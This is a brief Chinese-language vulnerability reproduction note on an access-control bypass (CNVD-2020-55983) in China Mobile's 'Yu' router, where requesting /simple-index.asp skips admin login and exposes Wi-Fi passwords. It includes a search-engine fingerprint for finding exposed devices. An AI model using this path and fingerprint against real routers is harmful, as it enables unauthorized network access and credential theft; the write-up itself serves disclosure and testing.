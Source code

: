 # 中国移动 禹路由 simple-index.asp 越权访问漏洞 CNVD-2020-55983

## 漏洞描述

中国移动 禹路由 simple-index.asp 存在越权访问漏洞，攻击者通过漏洞可以获取账号密码等敏感信息

## 漏洞影响

```
中国移动 禹路由
```

## 网络测绘

```
title="互联世界 物联未来-登录"
```

## 漏洞复现

登录页面如下

![](./images/202202162253135.png)



访问Url

```plain
/simple-index.asp
```

![](./images/202202162253346.png)

越过管理员验证获取Wifl账号密码等信息